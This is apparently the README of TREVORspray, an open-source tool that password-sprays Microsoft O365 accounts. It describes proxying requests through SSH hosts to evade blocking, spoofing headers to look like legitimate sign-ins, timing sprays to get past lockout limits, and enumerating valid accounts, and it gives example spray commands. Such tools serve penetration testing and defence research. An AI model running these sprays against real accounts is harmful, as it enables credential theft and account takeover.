 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)
`#trevorforget`

# TREVORspray
A featureful Python O365 sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) which uses the [Microsoft Graph API](https://docs.microsoft.com/en-us/graph/overview)

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

Microsoft is getting better and better about blocking password spraying attacks against O365.  **TREVORspray can solve this by proxying its requests through an unlimited number of `--ssh` hosts**.  No weird dependencies or cumbersome setup required - all you need is a cloud VM with port 22 open.

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (attempted user/pass combos are remembered in `./logs/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `./logs/trevorspray.log`
- Saves valid usernames to `./logs/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Spray O365 with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray O365 and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1 -kp
```

## Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [--url URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-kp]
                       [--base-port BASE_PORT]

Sprays O365 and can round-robin through SSH proxies

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  --url URL             The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Prints emails that could exist in case of invalid password
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -kp, --key-pass       SSH key requires a password
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```

## Known Limitations:
- Untested on Windows
- Only works against the M$ Graph API (right now at least)